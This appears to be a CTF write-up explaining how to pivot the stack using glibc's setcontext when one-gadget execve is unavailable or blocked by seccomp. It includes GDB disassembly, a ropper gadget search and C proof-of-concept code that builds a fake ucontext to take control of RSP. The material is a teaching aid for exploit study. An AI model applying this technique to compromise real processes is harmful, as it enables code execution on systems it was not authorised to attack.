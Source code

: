 # Stack pivoting with setcontext

Usually in CTF challenges we have at our disposal a so named _one gadget_ or _magic gadget_ which allows directlly executing `execve("/bin/sh", 0, 0)` by simply controlling the **RIP**. Sometimes this approach is not reliable by a couple of reasons:

- the constraints for _one gadget_ are not satisfied
- the process is sandboxed using **seccomp** and `execve()` is not allowed

To overcome the situation we can try to pivot the stack to a different location (usually the heap) leveraging a classic ROP chain attack. We'll use `setcontext` to conduct our attack.

PoC source code [here](https://github.com/JustBeYou/ctfs/blob/master/writeups/setcontext_trick.c).

## Preconditions

- GNU/Linux environment with glibc
- Known address to a contigous (writable) region of memory
- Known base of **libc**
- A way to take control of **RIP** and **RDI**

Instead of writing an actual challenge to exploit, we'll focus on implementing the attack directly in C using a single program. Here are the details of my environment, you'll have to change the offsets according to your own:

```c
/**
 * System
 *  Fedora release 31 (Thirty One)
 *  GNU/Linux 5.6.13-200.fc31.x86_64
 *  ldd (GNU libc) 2.30
 *
 * Compile
 *  gcc setcontext_trick.c -g -o setcontext_trick
 */
```

## Overview of setcontext

`setcontext` is a function from libc used to switch (user-level) contexts between threads. You can read more about it on its [man page](https://linux.die.net/man/2/setcontext). The most interesting thing about it is that a context contains a complete copy of machine's registers including **RSP**, so by calling `setcontext` with a well-crafted structure, we can pivot the stack to an arbitrary location.

We have to dig inside `struct ucontext` so we'll know which filed controls the stack pointer.

```c
typedef struct ucontext {
    struct ucontext *uc_link;
    sigset_t         uc_sigmask;
    stack_t          uc_stack;
    mcontext_t       uc_mcontext;
    ...
} ucontext_t;
```

`mcontext_t uc_mcontext` ([source](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86/sys/ucontext.h.html#133)) field stores the machine state which contains the saved registers.

```c
typedef struct
  {
    gregset_t __ctx(gregs);
    /* Note that fpregs is a pointer.  */
    fpregset_t __ctx(fpregs);
    __extension__ unsigned long long __reserved1 [8];
} mcontext_t;
```

General purpose registers are stored in `gregs` and they have the following order ([source](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86/sys/ucontext.h.html#gregset_t)):

```c
typedef greg_t gregset_t[__NGREG];
#ifdef __USE_GNU
/* Number of each register in the `gregset_t' array.  */
enum
{
  REG_R8 = 0,
# define REG_R8                REG_R8
  REG_R9,
# define REG_R9                REG_R9

...

# define REG_RSP        REG_RSP // 15th index

...
```

In conclusion, our target is `ucontext_t.uc_mcontext.gregs[REG_RSP]`, where `REG_RSP = 15`.

## Problems with the naive approach

Now, we could try to simply call `setcontext` with a fake structure and take control of **RSP** but this would raise two major problems:

- `setcontext` is using the system call `sigprocmask` and it's very probable to be blocked by `seccomp`
- `setcontext` is reloading FPU x87 environment using `fldenv` so we would need to craft a valid structure for it too

```c
// Naive approach
ucontext_t* ucp = calloc(sizeof(ucontext_t), 1);
ucp->uc_mcontext.gregs[REG_RSP] = 0xcafebabe;

setcontext(ucp);
```

By digging into the [source code](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86_64/setcontext.S.html#__setcontext) of `setcontext` we can find a way to overcome the limitations of this approach.

Lines [47](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86_64/setcontext.S.html#47) and [59](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/x86_64/setcontext.S.html#59) cause the above mentioned problems. To avoid them, we could jump just after line 60, directly executing the part that reloads general purpose registers. We can find the corresponding offset in the binary by using GDB:

```
(gdb) x/10i setcontext+0x3d
   0x7ffff7e202cd <setcontext+61>:	mov    rsp,QWORD PTR [rdx+0xa0]
   0x7ffff7e202d4 <setcontext+68>:	mov    rbx,QWORD PTR [rdx+0x80]
   0x7ffff7e202db <setcontext+75>:	mov    rbp,QWORD PTR [rdx+0x78]
   0x7ffff7e202df <setcontext+79>:	mov    r12,QWORD PTR [rdx+0x48]
   0x7ffff7e202e3 <setcontext+83>:	mov    r13,QWORD PTR [rdx+0x50]
   0x7ffff7e202e7 <setcontext+87>:	mov    r14,QWORD PTR [rdx+0x58]
   0x7ffff7e202eb <setcontext+91>:	mov    r15,QWORD PTR [rdx+0x60]
   0x7ffff7e202ef <setcontext+95>:	test   DWORD PTR fs:0x48,0x2
   0x7ffff7e202fb <setcontext+107>:	je     0x7ffff7e203b6 <setcontext+294>
   0x7ffff7e20301 <setcontext+113>:	mov    rsi,QWORD PTR [rdx+0x3a8]
```

Unfortunately, another problem arises: the structure was previously loaded into **RDX** and we have control only over **RDI**.

## Controlling RDX

As we already know libc's base we have plenty of gadgets to work with. In this case, we need a gadget that allows setting **RDX** by using **RDI** and then calling a function by a controlled pointer. Using `ropper` and some `grep` trickery, we find just the right thing:

```bash
$ ropper -f /lib64/libc.so.6 --nocolor | grep -E "mov rdx, .*rdi" | grep -E "(call|jmp) qword ptr \[rdx"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x000000000012ff3c: add byte ptr [rax], al; add byte ptr [rax], al; mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
0x000000000012ff3e: add byte ptr [rax], al; mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
0x000000000012ff40: mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
```

The gadget at `0x12ff40` is perfect for our use case.

```asm
# rdi should be our controlled buffer
mov rdx, qword ptr [rdi + 8]; # load a controlled value into rdx
mov qword ptr [rsp], rax;
call qword ptr [rdx + 0x20];  # call using a controlled pointer
```

## Crafting the final payload

Using the knowledge we gained above, we can write our proof of concept exploit:

1. Leak and call primitives

```c
size_t leak_libc() {
    return (size_t)stdout - 0x1c3500;
}

void call(void* p, size_t arg) {
    void (*func_ptr)(size_t) = p;
    func_ptr(arg);
}
```

2. Alloc a fake stack and prepare gadgets' addresses

```c
size_t* fake_stack = malloc(0x200);
for (int i = 0; i < 10; i++) fake_stack[i] = 0xdeadbeef;

size_t setcontext_addr = leak_libc() + 0x4c290;
void* load_rdx = (void*)(leak_libc() + 0x12ff40);
```

3. Create the fake context structure and load it

```c
ucontext_t* ucp = calloc(sizeof(ucontext_t), 1);
ucp->uc_mcontext.gregs[REG_RSP] = (size_t)fake_stack; // new stack

size_t* raw_ucp = (size_t*)ucp;
raw_ucp[1] = (size_t)ucp; // [rdi+0x8]  = &ucp => rdx = &ucp
raw_ucp[4] = setcontext_addr + 0x3d;   // [rdx+0x20] = setcontext+0x3d

call(load_rdx, (size_t)ucp);
```

Profit!

```
Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────── registers ────
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x0
$rdx   : 0x0
$rsp   : 0x00000000004052a0  →  0x00000000deadbeef
$rbp   : 0x0
$rsi   : 0x0
$rdi   : 0x0
$rip   : 0x0
$r8    : 0x0
$r9    : 0x0
$r10   : 0x3d0
$r11   : 0x00007ffff7f96a40  →  0x0000000000405870  →  0x0000000000000000
$r12   : 0x0
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
──────────────────── stack ────
0x00000000004052a0│+0x0000: 0x00000000deadbeef   ← $rsp
0x00000000004052a8│+0x0008: 0x00000000deadbeef
0x00000000004052b0│+0x0010: 0x00000000deadbeef
0x00000000004052b8│+0x0018: 0x00000000deadbeef
0x00000000004052c0│+0x0020: 0x00000000deadbeef
0x00000000004052c8│+0x0028: 0x00000000deadbeef
0x00000000004052d0│+0x0030: 0x00000000deadbeef
0x00000000004052d8│+0x0038: 0x00000000deadbeef
────────────────── code:x86:64 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x0
─────────────────── threads ────
[#0] Id 1, Name: "setcontext_tric", stopped 0x0 in ?? (), reason: SIGSEGV
```

Complete source code of PoC [here](https://github.com/JustBeYou/ctfs/blob/master/writeups/setcontext_trick.c).

## Conclusions

We can use this tehnique in a variety of challenges where getting a ROP chain seems impossible, especially in heap challenges where pivoting using a classic `retn` instruction is not an option and `seccomp` does not allow us to execute the _magic gadget_.
